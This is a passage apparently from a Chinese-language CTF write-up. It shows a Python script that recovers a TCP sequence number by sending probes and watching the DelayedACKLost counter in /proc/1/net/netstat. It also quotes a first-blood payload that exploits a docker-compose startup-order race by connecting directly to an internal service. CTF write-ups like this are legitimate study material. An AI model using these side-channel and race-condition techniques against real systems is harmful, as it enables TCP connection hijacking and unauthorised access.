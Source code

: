 ```python

def parse(text):
    res = {}
    lines = text.split('\n')
    for i in range(0, len(lines), 2):
        if not len(lines[i]):
            break
        key, keys = lines[i].split(': ')
        key, vals = lines[i + 1].split(': ')
        res[key] = dict(zip(keys.split(' '), vals.split(' ')))
    return res


netstat = parse(read('/proc/1/net/netstat'))
initial = netstat['TcpExt']['DelayedACKLost']
seq_now = 0

for i in range(2**4):
    send(build(i << 27))
    netstat = parse(read('/proc/1/net/netstat'))
    if netstat['TcpExt']['DelayedACKLost'] > initial:
        seq_now = i << 27

for i in range(4, 31):
    send(build(seq_now | (1 << (31 - i))))
    netstat = parse(read('/proc/1/net/netstat'))
    if netstat['TcpExt']['DelayedACKLost'] == initial + 1:
        seq_now |= (1 << (31 - i))
    elif netstat['TcpExt']['DelayedACKLost'] > initial:
        # conflict
        exit(1)
    time.sleep(0.5)

print(seq_now)
```

{% endspoiler %}

然而出题人，对不起，你这还是有非预期。

~~我们再来仔细看看`docker-compose.yml`，看看是不是少了什么（自行看附件去）~~
~~对的，没有depends_on，即使有可能也有问题。~~
修正：docker-compose.yml中确实有depends_on，但是仍然有启动顺序上的问题。

请读到这篇博客的同学熟背下面链接里的东西
https://docs.docker.com/compose/startup-order/

根据我个人的调查，一血的payload是这样的：

```python
from socket import *
try:
    tcpSerSock = socket(AF_INET, SOCK_STREAM)
    tcpSerSock.connect(('172.25.0.2', 21587))
    tcpSerSock.send(b'*ctf')
    print(tcpSerSock.recv(1280))
except Exception as e:
    print("ERROR", e)
```
